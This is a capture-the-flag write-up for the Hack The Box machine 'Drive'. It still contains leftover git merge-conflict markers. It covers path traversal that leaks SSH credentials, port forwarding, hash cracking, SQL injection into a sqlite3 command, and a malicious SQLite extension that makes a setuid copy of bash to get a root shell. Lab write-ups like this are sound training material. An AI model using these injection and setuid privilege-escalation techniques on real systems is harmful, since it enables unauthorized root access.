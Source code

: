 # Enumeration

Open Ports: 22,80 (redirects to http://drive.htb)
Filtered Port: 3000

```
echo "10.10.11.235 drive.htb" | sudo tee -a /etc/hosts
```

<<<<<<< HEAD
# Foothold

=======
>>>>>>> 07617953e2b03e9348c9a5d540f632fdb94b63c1
## Path Traversal

The file http://drive.htb/100/getFileDetail/ is also available under http://drive.htb/100/block/ 

Iteration reveals ssh username and password in a document.
<<<<<<< HEAD
=======
http://drive.htb/79/block/ 
>>>>>>> 07617953e2b03e9348c9a5d540f632fdb94b63c1

## Gitea ssh-portforwarding

The filtered port 3000 can be accessed from the intranet.

```
ssh -L 3000:drive.htb:3000 martin@10.10.11.235
```

Use the same password for the username martinCruz.

Password for the backups can be found in the script.

<<<<<<< HEAD
## Password cracking

Cracking some Sha1
```
hashcat -m 124 ../../hashes/sha1-hashes.txt /usr/share/wordlists/rockyou.txt.gz
```

# Root

## Reverseengeneer doodleGrive-cli

Letting Ghidra(CodeBrowser) analyzing the code shows a username and password to start the cli.

## SQL-Injection

On case5 is a SQL-Injection possible.

```
    snprintf(local_118,0xfa,
             "/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"%s\";\'"
             ,local_148);
```

## load-extension

https://www.sqlite.org/loadext.html

```
gcc -g -fPIC -shared YourCode.c -o YourCode.so
```

```
"+load_extension(YourCode.so)--; 
```

### Example extension
```
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

#include <stdlib.h>

#ifdef _WIN32
__declspec(dllexport)
#endif

int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  SQLITE_EXTENSION_INIT2(pApi);

  system("/usr/bin/cp /bin/bash /tmp/b");
  system("/usr/bin/chmod +s /tmp/b");

  return SQLITE_OK;
}
```

Get root shell
```
/tmp/b -p
```
=======
>>>>>>> 07617953e2b03e9348c9a5d540f632fdb94b63c1


